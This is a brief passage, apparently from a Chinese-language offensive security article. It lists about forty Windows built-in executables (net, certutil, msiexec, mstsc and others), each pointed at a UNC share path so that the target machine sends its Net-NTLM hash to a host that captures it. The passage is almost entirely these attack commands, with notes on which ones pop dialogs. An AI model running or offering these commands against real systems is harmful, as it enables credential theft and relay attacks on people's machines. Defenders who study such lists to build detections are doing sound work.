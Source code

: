 通过执行系统命令，访问指定的 UNC 路径，来获取目标机器的 Net-NTLM Hash。

```
net.exe use \hostshare 
attrib.exe \hostshare
cacls.exe \hostshare
certreq.exe \hostshare #(noisy, pops an error dialog) 
certutil.exe \hostshare
cipher.exe \hostshare
ClipUp.exe -l \hostshare
cmdl32.exe \hostshare
cmstp.exe /s \hostshare
colorcpl.exe \hostshare #(noisy, pops an error dialog)
comp.exe /N=0 \hostshare \hostshare
compact.exe \hostshare
control.exe \hostshare
convertvhd.exe -source \hostshare -destination \hostshare
Defrag.exe \hostshare
diskperf.exe \hostshare
dispdiag.exe -out \hostshare
doskey.exe /MACROFILE=\hostshare
esentutl.exe /k \hostshare
expand.exe \hostshare
extrac32.exe \hostshare
FileHistory.exe \hostshare #(noisy, pops a gui)
findstr.exe * \hostshare
fontview.exe \hostshare #(noisy, pops an error dialog)
fvenotify.exe \hostshare #(noisy, pops an access denied error)
FXSCOVER.exe \hostshare #(noisy, pops GUI)
hwrcomp.exe -check \hostshare
hwrreg.exe \hostshare
icacls.exe \hostshare 
licensingdiag.exe -cab \hostshare
lodctr.exe \hostshare
lpksetup.exe /p \hostshare /s
makecab.exe \hostshare
msiexec.exe /update \hostshare /quiet
msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)
mspaint.exe \hostshare #(noisy, invalid path to png error)
msra.exe /openfile \hostshare #(noisy, error)
mstsc.exe \hostshare #(noisy, error)
netcfg.exe -l \hostshare -c p -i foo
```

#### ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f7hic1f1LSL2JycsiaN4oqSmGDXWEGg3GWTaWhCVL1308UvNIcwg7XAWevwPm5qWHRBLIUaMEQQYlA/640?wx_fmt=png)

#### ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f7hic1f1LSL2JycsiaN4oqSm1xibORxskUgzE79HdiaL3EbtcLx7vrUY7mXLGEwrRwibF9odups7UR9EQ/640?wx_fmt=png)
